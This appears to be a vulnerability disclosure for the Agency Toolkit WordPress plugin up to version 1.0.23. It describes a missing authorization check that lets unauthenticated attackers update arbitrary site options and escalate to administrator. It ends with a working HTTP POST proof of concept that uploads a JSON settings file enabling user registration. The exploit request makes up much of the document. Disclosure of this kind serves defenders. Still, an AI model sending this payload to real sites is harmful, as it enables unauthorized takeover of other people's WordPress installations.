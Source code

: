 # NoCVE
Agency Toolkit <= 1.0.23 - Missing Authorization to Unauthenticated Arbitrary Options Update

# Description

The Agency Toolkit plugin for WordPress is vulnerable to unauthorized modification of data that can lead to privilege escalation due to a missing capability check on the 'agency_toolkit_import' action in all versions up to, and including, 1.0.23. This makes it possible for unauthenticated attackers to update arbitrary options on the WordPress site. This can be leveraged to update the default role for registration to administrator and enable user registration for attackers to gain administrative user access to a vulnerable site.

## Details

- **Type**: plugin
- **Slug**: agency-toolkit
- **Affected Version**: <= 1.0.23
- **CVSS Score**: 9.8
- **CVSS Rating**: Critical
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
- **CVE**: N/A
- **Status**: Active

POC
---

```
POST /wp-admin/admin.php HTTP/2
Host: wp-dev.ddev.site
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryABC123
Content-Length: 485

------WebKitFormBoundaryABC123
Content-Disposition: form-data; name="agency_toolkit_import"

1
------WebKitFormBoundaryABC123
Content-Disposition: form-data; name="import_file"; filename="settings.json"
Content-Type: application/json

[
   
    {
        "option_name": "users_can_register",
        "option_value": "1"
    }
]
------WebKitFormBoundaryABC123--
```
